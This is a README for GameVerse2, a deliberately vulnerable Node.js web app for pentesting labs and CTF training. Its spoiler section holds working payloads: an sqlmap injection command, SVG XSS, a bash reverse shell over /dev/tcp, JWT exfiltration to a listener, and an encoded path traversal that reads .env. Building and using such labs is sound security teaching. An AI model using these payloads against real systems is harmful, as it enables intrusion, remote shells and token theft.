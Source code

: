 # GameVerse V2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

Frontend more or less vibe-coded, enjoy the looks :)
Feel free to use for whatever reason

> Do not deploy this server to a production or public environment.

![GameVerse logo](pic.png)

---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/ettelman/gameverse2eng.git
cd gameverse2eng
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---

![alt text](captura-2025-06-03-1748961130.png)

### 2.1 Start with Docker

> Recommended for clean lab environments

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --code 200 --tables --tamper=space2comment --risk 3 --level 5
```

---

### XSS via avatar URL (using `<object>`)
Create SVG:
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```

---

### Path traversal against plugins
```plaintext
Upload .js outside plugins using ../ in the path – see the LFI example below.
```

---

### JWT exfiltration via XSS
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
</svg>
```

---

### Plaintext passwords in the database
```bash
sqlite3 gameverse.db
-- view all users and passwords in plaintext!
```

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
</details>